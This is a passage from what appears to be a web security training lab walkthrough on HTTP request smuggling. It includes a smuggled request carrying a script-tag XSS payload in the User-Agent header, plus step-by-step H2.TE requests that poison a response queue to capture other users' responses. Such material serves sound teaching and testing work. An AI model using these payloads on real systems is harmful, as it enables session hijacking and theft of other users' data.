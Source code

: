     0  
      
    GET /post?postId=5 HTTP/1.1  
    User-Agent: a"/><script>alert(1)</script>  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 5  
      
    x=1`

**Note**

Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.

### Lab: Response queue poisoning via H2.TE request smuggling

**Note**

This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).

1.  Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request using chunked encoding as follows. Remember to expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2 before sending the request.
    
    `POST / HTTP/2  
    Host: YOUR-LAB-ID.web-security-academy.net  
    Transfer-Encoding: chunked  
      
    0  
      
    SMUGGLED  
      
    `
    
2.  Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
    
3.  In Burp Repeater, create the following request, which smuggles a complete request to the back-end server. Note that the path in both requests points to a non-existent endpoint. This means that your request will always get a 404 response. Once you have poisoned the response queue, this will make it easier to recognize any other users' responses that you have successfully captured.
    
    `POST /x HTTP/2  
    Host: YOUR-LAB-ID.web-security-academy.net  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /x HTTP/1.1  
    Host: YOUR-LAB-ID.web-security-academy.net  
      
    `
    
    **Note**
    
